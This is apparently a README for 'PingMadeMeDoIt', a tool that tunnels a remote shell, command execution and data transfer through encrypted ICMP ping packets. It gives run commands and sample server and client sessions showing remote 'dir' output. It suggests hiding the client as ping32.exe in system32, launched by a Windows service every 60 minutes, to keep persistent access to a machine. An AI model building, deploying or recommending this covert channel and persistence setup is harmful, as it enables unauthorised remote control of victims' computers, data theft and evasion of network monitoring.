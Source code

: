 # PingMadeMeDoIt
Mom, ping made me do it ! Use ping to enter shell, execute commands or send data.

Use Ping IMCP 8 to send data, receive data. In our example we implemented a shell, job command and simple plain messaging. All of this in combination with some AES-256 encryption sauce.
Ping client will run as normal ping but if you supply client.exe advanced, it will start the custom ping.

Nowadays this technique is quite known but still it's a nice backup to maintain persistence access to a machine. Maybe combinate this with some windows service which calls our custom ping each 60 minutes, put it in system32\ as ping32.exe ?

run server : python PingMadeMeDoIt.py
server commands : shellstart (start shell), shellexit (exit shell), job: cmd (execute cmd provided and return info), if no command is received default behaviour is to send back reply with the text inputted.

run client : python PingMadeMeDoIt.exe advanced x.x.x.x hello

example :

<b>Server Side..</b>

[root@yourmom ping]# python3.11 PingMadeMeDoIt.py
Listening for ICMP Echo requests...
Enter the response text to send : shellstart
Entered shell mode.
$ dir
result: shellresult:  Volume in drive C has no label.
 Volume Serial Number is A69D-9D16

 Directory of C:\Users\rickd\source\repos\CustomPing\CustomPing\bin\Release

07/30/2023  08:10 PM    <DIR>          .
07/30/2023  08:10 PM    <DIR>          ..
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Crypto.dll
07/30/2023  08:10 PM             9,728 CustomPing.exe
07/30/2023  08:10 PM            24,064 CustomPing.pdb
               3 File(s)      2,642,944 bytes
               2 Dir(s)  16,437,215,232 bytes free

$ shellexit
Shell mode exited.

<b>Client Side..</b>

C:\Users\yourmom\filled>CustomPing.exe advanced x.x.x.x good
Custom ICMP Echo Request sent successfully.
IP Address: x.x.x.x
Roundtrip Time: 3777 ms
Time to Live (TTL): 50
Buffer Size: 94 bytes
Buffer Data (Hex): 73 67 48 7A 62 44 4E 4C 4C 69 75 49 36 62 6E 6B 42 71 4F 52 45 41 3D 3D 7C 6B 66 4B 53 38 49 63 70 32 6F 4E 30 30 4A 44 49 6C 43 49 30 43 62 31 6D 4B 6F 42 6F 4D 70 6A 43 55 54 54 59 4C 71 70 6C 69 2F 34 3D 7C 6A 48 34 2F 42 42 70 43 34 4A 31 46 46 37 38 79 74 38 49 63 2B 67 3D 3D
Buffer Data (ASCII): sgHzbDNLLiuI6bnkBqOREA==|kfKS8Icp2oN00JDIlCI0Cb1mKoBoMpjCUTTYLqpli/4=|jH4/BBpC4J1FF78yt8Ic+g==
Received command: dir
Send ping reply: shellresult:  Volume in drive C has no label.
 Volume Serial Number is A69D-9D16

 Directory of C:\Users\yourmom\filled

07/30/2023  08:10 PM    <DIR>          .
07/30/2023  08:10 PM    <DIR>          ..
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Mom.dll
07/30/2023  08:10 PM             9,728 Deep.exe
07/30/2023  08:10 PM            24,064 Penetration.pdb
               3 File(s)      2,642,944 bytes
               2 Dir(s)  16,437,215,232 bytes free

Received shellexit. Exiting the loop.

